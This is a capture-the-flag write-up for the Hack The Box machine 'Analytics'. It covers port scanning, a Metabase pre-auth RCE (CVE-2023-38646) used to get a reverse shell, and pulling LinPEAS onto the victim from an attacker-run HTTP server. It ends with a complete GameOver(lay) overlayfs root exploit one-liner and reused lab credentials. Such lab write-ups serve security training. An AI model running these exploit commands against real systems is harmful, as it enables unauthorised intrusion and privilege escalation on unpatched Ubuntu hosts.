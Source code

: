 ```yaml
---
title: Analytics - HTB Writeup
date: 2024-03-22 10:03
categories: [ctf, linux, easy]
tags: [htb, linux, ctf, easy]    # TAG names should be lowercase
---
```



# Machine Overview

**Analytics** was an easy-rated Linux machine, involving the exploitation of **CVE-2023-38646** for initial access and **CVE-2023-32629** for Privilege Escalation.

<img  alt="Pasted image 20240322120647" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/adce0329-b6e1-49bc-acd6-68eb1d6e2275">

# User
## Scanning with nmap
  
First of all, we will go with Nmap to scan the whole network and check for services running on the network. To scan the entire network and find all the open ports, I use **-p-** to scan all **65535** ports with **--min-rate 10000** to scan the network faster using **nmap**. After scanning, I retrieve a list of open ports on the network and extract only the open ports using various terminal tools like **cut**, **tr**, etc.

```bash
$ nmap -p- -Pn --min-rate 10000 10.10.11.233 -oN ini.txt && cat ini.txt | cut  -d ' ' -f1 | tr -d '/tcp' | tr '\n' ','
# Open ports
22,80
```

Now Let's run the depth scan on these specific ports using 

```bash
$ nmap -p22,80 -sC -sV -A -T4 -Pn 10.10.11.233 -oN scan.txt
```

- **-sC** is to run all the default scripts
- **-sV** for service and version detection
- **-A** to check all default things
- **-T4** for aggressive scan
- **-oN** to write the result into a specified file
- **-Pn** to Treat all hosts as online

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Information Gathering

Through Nmap, we discovered only two ports are open. On Port **22**, SSH version **8.9p1** is running on an Ubuntu system, and on port **80**, HTTP **Nginx 1.18.0** is running. Both versions of SSH and Nginx are not vulnerable, so I decided to directly visit the webpage. Let's add `analytical.htb` in our DNS file.

```bash
$ echo "10.10.11.233   analytical.htb" | sudo tee -a /etc/hosts
```

### 80 HTTP

The webpage is running the Data Analysis website, which deals in Data processing and helping customers to find recent trends and products, with different pages linked on the **navbar**.

<img  alt="Pasted image 20240321191106" src="https://github.com/iammR0OT/myaseen/assets/74102381/960bbbd9-408c-466d-a138-fccbb00742aa">

The Login button on navbar is retdirecting us to subdomain called `data.analytical.htb`. 

<img  alt="Pasted image 20240321191211" src="https://github.com/iammR0OT/myaseen/assets/74102381/38cb8468-eece-4e17-a3e9-e93bc94ee304">

Let's Add this to our local DNS file, so that we can resolve it.

```bash
$ cat /etc/hosts | grep analytical
10.10.11.233   analytical.htb data.analytical.htb
```

#### Initial Access

On `data.analytical.htb`, Metabase is running.
Metabase is **an open source business intelligence tool that lets you create charts and dashboards using data from a variety of databases and data sources**. You don't need to know SQL to create visualizations, but Metabase supports SQL for advanced customization.

<img  alt="Pasted image 20240321191714" src="https://github.com/iammR0OT/myaseen/assets/74102381/9175639c-936b-43f5-adef-4cf495ac45bf">

With a Quick google Search i was able to find a RCE exploit of metabase [CVE-2023-38646](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

<img  alt="Pasted image 20240321191841" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/07497b78-0735-4057-b5a6-e922a9c0ca36">

To make this Exploit work, we needs the **target URL**, the **setup token** and a **command** that will be executed. The setup token can be obtained through the `/api/session/properties` endpoint. Copy the value of the `setup-token` key. 

<img  alt="Pasted image 20240321192204" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/916047a0-2bd7-49ad-8567-d1572a4a2eac">

Now we have all necessary things for exploit to work. Let's Exploit it...
- URL: `http://data.analytical.htb/`
- Setup-Token: `249fa03d-fd94-4d5b-b94f-b4ebf3df681f`
- Command: rev-shell

<img  alt="Pasted image 20240322105945" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/76f340f4-d143-49a2-ab81-62d1da352916">

We got a shell within no time. Let's run Linpease to check if we able to find any useful things to elevate our privileges.
**LinPEAS** is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.
i'll be using python server to transfer linpease from my attacker machine to victime machine, for this you first need to start a python server on your local machine in a directory where linpeas is present.

```bash
$ python3 -m http.server 80
```

After that, use **wget** to transfer it to victim machine and using chmod, give it executable permissions.

```bash
$ wget <IP>/linpeas.sh
$ chmod +x linpeas.sh
```

<img  alt="Pasted image 20240322113146" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/4ef40d6e-2830-4cc7-bf34-dc2f66d2605d">

After running Linpeas, in Environments section, we were able to retrieve the password of a new user called **metalytics** 
- metalytics
- An4lytics_ds20223#

<img  alt="Pasted image 20240322114718" src="https://github.com/iammR0OT/myaseen/assets/74102381/357decf1-6a38-4d4d-a489-2e4e75c08e8e">

Let's SSH to machine using these Credentials and retrieve our user flag.

```bash
$ sshpass -p 'An4lytics_ds20223#' ssh metalytics@10.10.11.233
```

<img  alt="Pasted image 20240322114914" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/3278a655-71af-497f-b4db-7b9d1f918147">

# Privilege Escalation

Let's move toward privilege Escalation part. The very first thing i usually do is to check the kernel version running on machine, because if the version is outdated, then it will be low hanging fruit for us to gain root access on machine.
To check the kernel version, we can use multiple commands like

```bash
$ uname -a
$ cat /proc/version
$ lscpu
```

Linux **Kernel 6.2.0** is running on machine

<img  alt="Pasted image 20240322115359" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/14ed00e2-57f1-4247-924c-9a9c0613d82d">

With a quick google search i was able to find kernel exploit for privilege Escalation, [CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) called **GameOver(lay)** Ubuntu Privilege Escalation
Local privilege escalation vulnerability in Ubuntu Kernels overlayfs **ovl_copy_up_meta_inode_data** skip permission checks when calling ovl_do_setxattr on Ubuntu kernels.


<img  alt="Pasted image 20240322115605" src="https://github.com/iammR0OT/myaseen/assets/74102381/4bd8a86f-6ca2-446b-8230-ee9eb244bfaa">

The payload will be.

```bash
$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

<img  alt="Pasted image 20240322120025" src="https://github.com/iammR0OT/myaseen/assets/74102381/bd0465d5-fb48-46c6-9dd9-ffd2be2be58b">


# Flags

User: edd9e7f9b0b992....7958419d05ccb 

Root: b9b4c98f4512a4....c0fad7fd933a6b

# Happy Hacking ❤
